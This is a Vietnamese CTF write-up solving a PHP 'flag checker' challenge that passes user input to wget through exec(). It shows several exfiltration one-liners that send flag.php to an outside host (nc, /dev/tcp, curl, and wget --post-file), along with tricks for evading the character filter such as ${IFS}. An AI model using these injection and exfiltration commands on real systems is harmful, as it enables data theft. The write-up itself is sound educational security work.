 # Problem
```sh
This new service checks if your flags are valid. What could possibly go wrong?

Target: http://challs.xmas.htsp.ro:3001/
Author: yakuhito
```
# Solution

- Đầu tiên, sau khi kết nối đến địa chỉ đề cho, chúng ta có thể thấy được ngay source code của file [index.php](problem/index.php).
<img src=assets/p1.png>

- Sau khi đọc code, ta có thể thấy ngay yêu cầu của challenge này như sau:
	+ Nhận 1 biến có tên là `flag` thông qua phương thức `GET`.
	+ Sau đó sẽ vào hàm **checkFlag** để kiểm tra chuỗi của chúng ta nhập vào, nếu có bất kì 1 kí tự nào trong chuỗi của chúng ta nhập vào không thuộc chuỗi này (cả lowercase và uppercase) **'FAKE-X-MAS{d1s_i\$_a_SaMpL3_Fl4g_n0t_Th3_c0Rr3c7_one_karen_l1k3s_HuMu5.0123456789}'** thì hàm **checkFlag** sẽ trả về `False` và kết thúc chương trình.
	+ Nếu chuỗi của chúng ta nhập làm cho hàm **checkFlag** trả về `True` thì chúng ta sẽ đến được hàm **getFlag**. Ở hàm này, chúng ta được phép thực thi lệnh thông qua hàm **exec()** của `php`, cụ thể là `"wget -q -O - https://kuhi.to/flag/" . $flag` với biến `$flag` chính là chuỗi chúng ta nhập vào sau khi đã được kiểm tra ở hàm **checkFlag**.

- Tiếp theo chúng ta sẽ phân tích bài toán:
	+ Đầu tiên để có thể dễ dàng debug (custom lại file source) hoặc build lại chương trình này để test (trường hợp sau khi server của challenge đã đóng) thì có thể sử dụng file [index.php](problem/index.php) đề cho và dùng chương trình `php` để chạy chương trình cục bộ:
<img src=assets/p4.png>
	+ Nhìn vào source code, chúng ta sẽ nhanh chóng nhận ra `flag` nằm trong file `flag.php`, cùng thư mục với file `index.php`
	+ Dựa theo `output`của chương trình, chúng ta hoàn toàn không lấy được `flag`, cụ thể ở hàm **getFlag** chúng ta chỉ nhận được `Nope` hoặc `Maybe`. Cho nên hướng giải quyết sẽ là đẩy `flag` ra ngoài internet thông qua hàm **exec()**. Đến đây sẽ có 3 hướng giải quyết cho challenge này.

- Hướng 1: **Command Injection**
	+ Như chúng ta có thể thấy biến `$command = "wget -q -O - https://kuhi.to/flag/" . $flag` hoàn toàn có thể cho phép chúng ta thực hiện `command injection`, cụ thể là `command1;command2|command3` với `command1` là chương trình `wget` đề cho, `command2` dùng để đọc nội dung file flag, `command3` dùng để chuyển output của `command2` ra ngoài internet. Đại loại mô hình chung sẽ là **wget -q -O - https://kuhi.to/flag/ ; cat flag.php | nc 9.9.9.9 9999** với `9.9.9.9` và `9999` là địa chỉ ip và port của chúng ta ở ngoài internet. Đến đây chúng ta sẽ cùng giải quyết 1 số vấn đề:
	+ Đọc file: để đọc được file flag.php chúng ta có thể dùng `cat` (ngoài ra có thể dùng: `tac, head, tail, sort, nl, cut, awk, sed, base64...` sở dĩ có chú thích này vì có cũng có 1 bài tương tự nhưng bài đó họ xóa hết tất cả các chương trình dùng để đọc file nên chúng ta phải tùy cơ ứng biến thôi). Tuy nhiên ở hàm **checkFlag** lại không cho phép chúng ta nhập kí tự `space`, nhưng không sao, đối với `shell injection` thì cái này bypass cũng dễ. 
```sh
cat${IFS}flag.php
cat<flag.php
{cat,flag.php}
```
	+ Ở đây vì hàm **checkFlag** chỉ cho phép nhập 7 kí tự đặc biệt này `-{_\$.}`
nên giải pháp sẽ là thay kí tự `space` bằng `${IFS}`.
	+ Tiếp theo đến đoạn kết nối ra internet thì chúng ta có thể dùng `nc 9.9.9.9 9999`, tuy nhiên kí tự `|` lại không cho được phép. Sau 1 hồi search google thì phát hiện cách này: **cat flag > /dev/tcp/9.9.9.9/9999**, trong đó kí tự ">" sẽ được thay bằng biến môi trường `${PS2}`, kí tự `/` tuy không được phép nhưng có thể thay bằng `${HOME}` (hoặc **${HOME:0:1}**), tuy nhiên cách này cũng fail vì kí tự `>` từ biến môi trường `${PS2}` được xem như là 1 file chứ không phải là kí tự `redirect`. Đến đây chúng ta fail ở việc kết nối 2 command lại với nhau. Vậy thử dụng 1 command kiểu như là:
```sh
curl 9.9.9.9/`cat flag.php`
wget 9.9.9.9/$(base64 flag.php)
```
	+ Nhưng cũng đều fail nốt vì 2 kí tự "(" và "\`" đều bị filter hết. Thật ra với cách này mình fail ngay từ đầu vì nghĩ rằng kí tự `\n` có thể làm kí tự phân cách giữa `command1` và `command2`. Nói chúng bị hàm **checkFlag** lọc kí tự như thế thì đúng là khó thở thật. 

- Hướng 2: Bypass hàm **checkFlag**
	+ Đầu tiên dễ nhìn thấy nhất, là hàm `php strlen`, liệu có cách nào để hàm này trả về giá trị nhỏ hơn giá trị thực để nó không kiểm tra được hết các kí tự chúng ta nhập vào không? Đến đây chợt nghĩ đến kí tự **\x00** và **overflow integer** nhưng sau 1 hồi test đều fail :TT 
	+ Tiếp tục trong hàm **checkFlag** còn hàm nào thì tìm lỗ hổng của hàm đấy thôi. Tiếp đến là hàm `strpos`, thèn này cũng có 1 bug cho phép bypass việc lọc kí tự nhưng đòi hỏi phải có kí tự `%`, mà kí tự này cũng lại bị chặn :TT
	+ Cứ thế tương tự cho các hàm tiếp theo mà search tiếp nhưng chẳng thu được kết quả gì :TT 

- Hướng 3: Tận dụng **wget** đề cho
```sh
$command = "wget -q -O - https://kuhi.to/flag/" . $flag;
$cmd_output = array();
exec($command, $cmd_output);
```
	+ Nhìn nhận thật kĩ thì `wget` chính là command mà chúng ta cần tìm. Đối với mô hình chung thì việc chèn `command injection` luôn là lựa chọn hàng đầu, tuy nhiên đối với bài đặc biệt như challenge này, `wget` không chỉ giúp chúng ta kết nối ra ngoài internet, mà còn có thể upload được file nên cái chúng ta làm không phải là chèn thêm `command` mà là chèn thèn `option`. Cụ thể sẽ là **wget -q -O - https://kuhi.to/flag/ 9.9.9.9 --post-file flag.php**
	+ Và đây là payload và kết quả:
<img src=assets/p2.png>
<img src=assets/p3.png>

P/S: Nói chung qua challenge này được ôn lại `command injection` cũng nhiều, chỉ là vì không liên quan nên không nói cụ thể trong bài này nên đành để lại 1 số reference tại đây vậy :xD

[Shell Command Language](https://pubs.opengroup.org/onlinepubs/009604499/utilities/xcu_chap02.html)
[Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
[Web-CTF-Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet#%E7%A9%BA%E7%99%BD%E7%B9%9E%E9%81%8E)
[Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)


